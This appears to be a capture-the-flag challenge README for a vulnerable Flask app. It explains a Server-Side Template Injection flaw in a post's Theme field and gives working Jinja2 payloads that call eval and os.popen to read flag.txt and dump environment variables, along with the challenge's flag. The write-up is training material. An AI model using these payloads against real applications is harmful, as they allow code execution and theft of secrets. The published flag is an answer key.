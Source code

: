 # CTF Challenge: Flask SSTI Exploitation

## Challenge Description
Participants are provided with a Flask-based web application that allows users to create posts with a `Title`, `Theme`, and `Content`. The application is vulnerable to **Server-Side Template Injection (SSTI)**, which allows attackers to execute arbitrary code on the server.

The goal of the challenge is to exploit the SSTI vulnerability to read the contents of a hidden file named `flag.txt` located on the server.

---

## Challenge Setup
- **Application**: A Flask web application with user authentication, post creation, and profile viewing.
- **Vulnerability**: The `Theme` field in the post creation form is vulnerable to SSTI.
- **Flag**: The flag is stored in a file named `flag.txt` in the root directory of the application.

---

## Vulnerability Details
The vulnerability exists in the `Theme` field of the post creation form. When a user creates a post, the `Theme` field is rendered unsafely in the profile page using Jinja2 templating. This allows attackers to inject malicious Jinja2 templates and execute arbitrary code on the server.

For example, the following payload can be used to perform a simple calculation:
```jinja2
{{ 7 * 7 }}
This will render as 49 in the profile page, confirming the SSTI vulnerability.

Exploitation Steps
Create a Post:

Go to the post creation page (/posting).

Enter a Title and Content.

In the Theme field, enter a malicious payload to exploit the SSTI vulnerability.

Exploit SSTI:

Use the following payload to read the contents of flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat /path/to/flag.txt').read()") }}
Replace /path/to/flag.txt with the actual path to the flag.txt file.

View the Profile:

Go to the profile page (/users/<user_id>).

The Theme field will display the contents of flag.txt.

Example Payloads
Simple SSTI Test:

jinja2
Copy
{{ 7 * 7 }}
Output: 49

Read Environment Variables:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').environ") }}
Output: A dictionary of environment variables.

Read flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat ./flag.txt').read()") }}
Output: The contents of flag.txt.
```
## FLAG 

CTF{khoya_7na_mzrobin_3tih_flag_a_rabi3a}